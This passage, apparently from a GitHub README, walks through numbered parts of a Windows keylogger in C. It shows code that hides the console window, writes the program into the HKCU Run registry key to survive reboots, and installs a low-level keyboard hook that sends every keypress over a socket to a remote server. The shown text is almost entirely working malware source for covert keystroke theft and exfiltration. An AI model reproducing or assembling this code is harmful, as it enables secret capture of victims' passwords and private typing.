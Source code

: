```c
void HideConsole() {
    HWND hwnd = GetConsoleWindow();
    ShowWindow(hwnd, 0);
}
```

7. **Add Program to Startup**

Adds the executable path to the Windows registry for persistence after reboot.

```c
void AddToStartup(const char* exePath, const char* entryName) {
    HKEY hKey;
    RegOpenKey(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", &hKey);
    RegSetValueEx(hKey, entryName, 0, REG_SZ, (const BYTE*)exePath, strlen(exePath) + 1);
    RegCloseKey(hKey);
}
```

8. **Send Data to Remote Host**

Sends captured key strings to the connected remote server.

```c
void sendtoremotehost(const char* Data) {
    if (ConnectSocket == INVALID_SOCKET) return;

    int result = send(ConnectSocket, Data, (int)strlen(Data), 0);
    if (result == SOCKET_ERROR) {
        int err = WSAGetLastError();
        if (err != WSAEWOULDBLOCK) {
            closesocket(ConnectSocket);
            ConnectSocket = INVALID_SOCKET;
        }
    }
}
```

9. **Low-level Keyboard Hook Procedure**

Intercepts keypress events and sends the corresponding string to the remote host.

```c
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION && (wParam == WM_KEYDOWN || wParam == WM_SYSKEYDOWN)) {
        KBDLLHOOKSTRUCT* kbdStruct = (KBDLLHOOKSTRUCT*)lParam;
        DWORD vkCode = kbdStruct->vkCode;
        const char* KeyString = GetKeyString(vkCode);
        if (KeyString) {
            sendtoremotehost(KeyString);
        }
    }
    return CallNextHookEx(NULL, nCode, wParam, lParam);
}
```
